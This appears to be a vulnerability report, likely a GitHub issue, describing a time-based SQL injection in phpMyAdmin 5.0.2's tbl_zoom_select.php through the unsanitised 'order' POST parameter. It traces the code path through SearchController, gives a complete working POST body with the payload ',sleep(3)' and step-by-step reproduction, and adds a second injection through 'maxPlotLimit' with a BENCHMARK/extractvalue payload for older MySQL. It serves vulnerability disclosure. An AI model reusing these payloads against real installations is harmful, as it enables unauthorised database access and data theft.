









#Describe
The  enterpoint  of vulnerability  is `tbl_zoom_select.php`


You can see the last time is about  7s


the data:



There are three pieces of data in the table,if I add the sleep(2), the last time will more then 6s



#details


due to `$_POST['order'] ` add to `$sql_query ` directly



and final sql command is:
``SELECT *  FROM `oc_accounts` ORDER BY `uid` ,sleep(3) LIMIT 500``



####page:
`phpMyAdmin502/tbl_zoom_select.php`
####function:
```
/** @var SearchController $controller */
$controller = $containerBuilder->get(SearchController::class);
$controller->indexAction();
```

####page:
`phpMyAdmin502/libraries/classes/Controllers/Table/SearchController.php`
####funtion:
`indexAction()`
need to satisfies the conditions described below
in post data, we can use `criteriaColumnNames[0]=uid`  to insteal `criteriaColumnNames[]=uid` if you like

and then  ` $this->zoomSubmitAction($dataLabel, $goto);`


####page:
`phpMyAdmin502/libraries/classes/Controllers/Table/SearchController.php`
####funtion:
`zoomSubmitAction($dataLabel, $goto)`

and then `$sql_query = $this->_buildSqlQuery();`


####page:
`phpMyAdmin502/libraries/classes/Controllers/Table/SearchController.php`
####funtion:
`_buildSqlQuery()`

here  we can  send th data to satisfies the conditions described below and give the sql injection


####mytest
url:
`http://127.0.0.1:8888/cms/phpMyAdmin502/tbl_zoom_select.php`
post data:

`db=nextcloud&table=oc_accounts&token=3b6e3a5c3c5a6b4b4e455e376e575a69&goto=&back=tbl_zoom_select.php&criteriaColumnNames[]=uid&criteriaColumnOperators[0]=LIKE&criteriaValues[0]=&criteriaColumnTypes[0]=varchar(64)&criteriaColumnCollations[0]=&criteriaColumnNames[]=data&criteriaColumnOperators[1]=LIKE&criteriaValues[1]=&criteriaColumnTypes[1]=longtext&criteriaColumnCollations[1]=&criteriaColumnNames[]=pma_null&criteriaColumnTypes[2]=&criteriaColumnCollations[2]=&criteriaColumnNames[]=pma_null&criteriaColumnTypes[3]=&criteriaColumnCollations[3]=&dataLabel=uid&maxPlotLimit=500&zoom_submit=执行&zoom_submit=执行&orderByColumn=uid&order=,sleep(3)`

#Test
1. login first
2. choise a table and then click the search(`my url http://127.0.0.1:8888/cms/phpMyAdmin502/tbl_select.php?db=nextcloud&table=oc_accounts`)


3. click the the place I where selected (`my url http://127.0.0.1:8888/cms/phpMyAdmin502/tbl_zoom_select.php?db=nextcloud&table=oc_accounts`)

4. add the key world,and make sure they are different,here is very important!,and sumbmit,get the post data

5. add `&orderByColumn=uid&order=,sleep(3)` to the post data ,here I use the `orderByColumn=uid`, in fact use the key word which in step4 (here is uid or data)  we choise is ok,and order is our sql injection command

if sleep(3) is effective, we can use other sql command to other things

in fact 

here `$sql_query .= ' LIMIT ' . $_POST['maxPlotLimit'];`
`$_POST['maxPlotLimit']` add to limit directly,if mysql version between 5.0.0-5.6.6 still has sql injection  possible
example sql inj cmd:`select * from xx where id=1 limit 1,500 procedure analyse(extractvalue(rand(),concat(0x3a,BENCHMARK(5000000,SHA1(1)))),1);;`


